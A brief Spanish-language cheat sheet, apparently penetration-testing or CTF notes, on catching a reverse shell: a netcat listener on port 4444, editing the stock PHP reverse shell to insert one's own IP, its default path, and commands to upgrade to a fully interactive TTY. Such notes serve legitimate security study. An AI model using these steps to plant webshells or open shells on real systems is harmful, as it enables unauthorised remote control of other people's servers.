 
Poner puerto en escucha con Netcat:

```bash
nc -nlvp 4444
```

Editar el reverse shell para poner nuestra IP:
```bash
nano php-reverse-shell.php
```

Ruta por defecto del reverse shell:
```bash
/usr/share/webshells/php/php-reverse-shell.php
```

Pasar a shell completo interactivo:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL-Z
stty -echo raw
fg
stty rows 41 columns 166
```


